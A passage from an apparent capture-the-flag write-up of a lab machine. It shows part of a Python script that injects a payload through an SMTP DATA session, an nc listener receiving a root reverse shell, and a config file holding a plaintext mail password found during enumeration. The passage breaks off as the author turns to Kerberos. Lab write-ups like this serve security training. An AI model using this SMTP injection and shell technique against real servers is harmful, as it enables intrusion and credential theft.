 ```
	s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"DATA\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(payload)
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"QUIT\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
print("done")
s.close()
```

Running this script with proxychains we get a shell back! But it wasn't as easy, because A lot of tinkering was needed to finally get a shell back. First I needed a to check if we had a proper RCE. To do that I gave the mail a command to ping my machine. And to check if I was being pinged I started my tcpdump and saw ping requests. (Yeah... I forgot to note all that in my notes)


```
 nc -lvp 1234
Listening on 0.0.0.0 1234
Connection received on realcorp.htb 39122
bash: cannot set terminal process group (86): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# whoami
whoami
root
root@smtp:~# hostname
hostname
smtp.realcorp.htb
```

Looks like we are already root in this machine. But this box is far from over. After some enumeration I find plain text credentials inside the home directory.

```
root@smtp:/home/j.nakazawa# cat .msmtprc
# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60
```

Now I just needed to figure out where can I use them. I tried cracking some hashes I found on the machine along with the kerberos hashes I was able to get using the above creds but none of them cracked. I remember from my port scan that the box had kerberos running. I read up and find that we can use kerberos tickets to access services like ssh. For this I had to install the kerberos user package on my attack box and configure it. 
